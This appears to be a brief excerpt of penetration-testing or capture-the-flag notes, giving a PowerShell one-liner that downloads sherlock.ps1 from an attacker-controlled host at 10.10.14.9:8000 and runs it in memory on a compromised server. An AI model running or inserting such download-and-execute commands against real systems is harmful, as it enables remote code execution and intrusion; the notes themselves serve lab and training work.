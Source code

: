 * Useful for getting files(especially powershell scripts) ran on the server once you have code execution
	* this one-liner will download the file (sherlock.ps1 in this case) and run it with powershell 
```shell
echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.9:8000/sherlock.ps1") | powershell -noprofile -
```